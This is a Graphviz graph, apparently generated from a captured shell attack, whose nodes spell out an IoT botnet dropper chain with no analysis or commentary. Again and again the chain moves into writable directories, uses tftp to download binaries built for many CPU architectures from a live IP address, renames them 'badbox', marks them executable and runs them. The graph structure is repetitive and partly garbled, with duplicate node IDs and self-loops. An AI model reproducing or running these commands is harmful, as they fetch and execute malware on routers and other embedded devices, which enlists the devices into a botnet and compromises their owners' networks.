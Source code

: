 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 14 [label="||,"];
14 [label="tftp -r fyfa.mips -g 107.173.209.45 "];
14 -> 16 [label=";,"];
16 [label="cat fyfa.mips badbox "];
16 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 34 [label="||,"];
34 [label="tftp -r fyfa.mpsl -g 107.173.209.45 "];
34 -> 36 [label=";,"];
36 [label="cat fyfa.mpsl badbox "];
36 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 54 [label="||,"];
54 [label="tftp -r fyfa.sh4 -g 107.173.209.45 "];
54 -> 56 [label=";,"];
56 [label="cat fyfa.sh4 badbox "];
56 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 74 [label="||,"];
74 [label="tftp -r fyfa.x86 -g 107.173.209.45 "];
74 -> 76 [label=";,"];
76 [label="cat fyfa.x86 badbox "];
76 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 94 [label="||,"];
94 [label="tftp -r fyfa.arm -g 107.173.209.45 "];
94 -> 96 [label=";,"];
96 [label="cat fyfa.arm badbox "];
96 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 214 [label="||,"];
214 [label="tftp -r fyfa.pcc -g 107.173.209.45 "];
214 -> 216 [label=";,"];
216 [label="cat fyfa.pcc badbox "];
216 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 134 [label="||,"];
134 [label="tftp -r fyfa.i686 -g 107.173.209.45 "];
134 -> 136 [label=";,"];
136 [label="cat fyfa.i686 badbox "];
136 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 154 [label="||,"];
154 [label="tftp -r fyfa.i586 -g 107.173.209.45 "];
154 -> 156 [label=";,"];
156 [label="cat fyfa.i586 badbox "];
156 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 174 [label="||,"];
174 [label="tftp -r fyfa.m68k -g 107.173.209.45 "];
174 -> 176 [label=";,"];
176 [label="cat fyfa.m68k badbox "];
176 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 194 [label="||,"];
194 [label="tftp -r fyfa.spc -g 107.173.209.45 "];
194 -> 196 [label=";,"];
196 [label="cat fyfa.spc badbox "];
196 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 214 [label="||,"];
214 [label="tftp -r fyfa.pcc -g 107.173.209.45 "];
214 -> 216 [label=";,"];
216 [label="cat fyfa.pcc badbox "];
216 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
}
